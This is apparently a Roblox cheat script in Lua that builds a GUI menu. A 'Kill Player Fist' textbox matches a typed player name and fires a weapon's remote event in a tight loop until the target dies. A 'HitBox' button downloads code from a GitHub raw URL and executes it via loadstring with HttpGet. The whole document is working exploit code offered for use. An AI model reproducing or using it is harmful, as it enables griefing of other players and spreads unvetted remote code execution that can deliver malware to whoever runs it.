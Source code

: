 )

C:Textbox(
    "Kill Player Fist",
    "Put Player Name Here",
    true,
    function(text)
       for i, v in pairs(game.Players:GetChildren()) do
            if (string.sub(string.lower(v.Name), 1, string.len(text))) == string.lower(text) then
                text = v.Name
            end
        end
        local Target = text
        local dead

        if not game.Players.LocalPlayer.Backpack:FindFirstChild("Fist") then
            return notify("No fists found!", 10)
        end

        if not game.Players.LocalPlayer.Character:FindFirstChild("Fist") then
            game.Players.LocalPlayer.Backpack.Fist.Parent = game.Players.LocalPlayer.Character
        end

        if game.Players[Target].Character.Humanoid.Health >= 1 then
            dead = false
        end

        if game.Players[Target].Character.Humanoid.Health <= 1 then
            dead = true
        end

        local ohInstance1 = game.Players[Target].Character.Humanoid
        local ohNil2 = nil
        local ohNumber3 = 0
        local ohInstance4 = game.Players.LocalPlayer.Character.Head
        local ohBoolean5 = true
        local ohVector36 = game.Players[Target].Character.HumanoidRootPart.Position
        local ohBoolean7 = false

        while dead ~= true do
            task.wait(.04)
            game.Players.LocalPlayer.Character.Fist.LocalScript.Script.e:FireServer(
                ohInstance1,
                ohNil2,
                ohNumber3,
                ohInstance4,
                ohBoolean5,
                ohVector36,
                ohBoolean7
            )
        end
    end
)

C:Button(
    "HitBox",
    function()
 loadstring(game:HttpGet("https://raw.githubusercontent.com/WspNas/dedefe/main/README.md"))()
    end
)
